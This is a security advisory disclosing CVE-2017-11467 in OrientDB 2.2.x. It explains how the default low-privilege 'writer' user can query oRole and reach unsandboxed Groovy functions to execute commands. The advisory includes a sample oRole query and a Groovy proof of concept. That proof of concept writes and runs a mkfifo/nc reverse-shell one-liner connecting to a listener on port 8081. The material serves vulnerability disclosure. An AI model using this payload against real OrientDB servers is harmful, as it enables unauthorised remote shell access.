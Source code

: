 ## Vulnerability Summary
The following advisory reports a vulnerability in OrientDB which allows users of the product to cause it to execute code.

OrientDB is a Distributed Graph Database engine with the flexibility of a Document Database all in one product. The first and best scalable, high-performance, operational NoSQL database.

## Credit
An independent security researcher, Francis Alexander, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
The vendor has released patches to address this vulnerability and issue CVE-2017-11467.
For more information: https://github.com/orientechnologies/orientdb/wiki/OrientDB-2.2-Release-Notes#security.

## Vulnerability Details
OrientDB uses RBAC model for authentication schemes. By default an OrientDB has 3 roles – admin, writer and reader. These have their usernames same as the role. For each database created on the server, it assigns by default these 3 users.

The privileges of the users are:

admin – access to all functions on the database without any limitation
reader – read-only user. The reader can query any records in the database, but can’t modify or delete them. It has no access to internal information, such as the users and roles themselves
writer – same as the ‘reader’, but it can also create, update and delete records
ORole​ structure handles users and their roles and is only accessible by the admin user. OrientDB requires oRole read permissions to allow the user to display the permissions of users and make other queries associated with oRole permissions.

From version 2.2.x and above whenever the oRole is queried with a where, fetchplan and order by statements​, this permission requirement is not required and information is returned to unprivileged users.

Example:


```
select * from <em>oRole</em> order by name;
```

The user writer which is created with every database you create. Thus even if the db admin changes the admin user password, an attacker would still be able to get Code Execution with the writer user.

Since we enable the functions where, fetchplan and order by, and OrientDB has a function where you could execute groovy functions and this groovy wrapper doesn’t have a sandbox and exposes system functionalities, we can run any command we want.

Sample Groovy function:
Command.md

```
def command = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.0.0.0 8081
>/tmp/f'
 File file = new File("hello.sh")
 file.delete()
 file << ("#!/bin/bash\n")
 file << (command)
 def proc = "bash hello.sh".execute()
```
